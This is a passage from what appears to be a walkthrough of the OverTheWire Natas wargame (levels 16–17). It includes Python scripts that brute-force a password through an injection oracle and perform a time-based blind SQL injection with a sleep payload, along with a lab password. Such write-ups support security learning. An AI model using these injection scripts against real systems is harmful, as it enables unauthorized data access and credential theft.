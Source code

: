 ```python
    return "hello" not in resp
# make a list of all possible characters
print "making a list of all characters in pw file..."
possible_chars = []
for char in alphanumerics:
    if is_correct(char):
        print char
        possible_chars.append(char)
# print out all possible characters
print possible_chars
# try to find the full password by appending possible characters to either end of the password we have so far
password = ""
while len(password) < 32:
    print "Password =", password
    for char in possible_chars:
        if is_correct(password + char): password = password + char
        if is_correct(char + password): password = char + password


print password
print "Woohoo!"
```

Let it run for a bit and at the end you'll ahev the password:

> 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw Woohoo!

## Level 17

This level will be a bit tricky. It is like level 15 so we'll use the same
tecniques, but this time we will not see the output so we'll do a `blind`
bruteforce, using the server responce time as indicator of the right choice of
character.

Here's the script:
```python
#!/usr/bin/python2
#blind.py

import time
import requests
from requests.auth import HTTPBasicAuth
letters = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
solution = ""
for x in range(33):
    for c in letters:
        payload = {'username': 'natas18" and users.password COLLATE latin1_bin like "'+solution+c+'%'+'"and sleep(10) and "x"="x'}
        start = time.time()
        r = requests.post("http://natas17.natas.labs.overthewire.org/", data=payload, auth=HTTPBasicAuth('natas17', '8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw'))
        end = time.time()
        if int(end-start) >= 4:
            solution = solution + c
            print "Solution: " + solution
            break

print "Final: "+solution
```
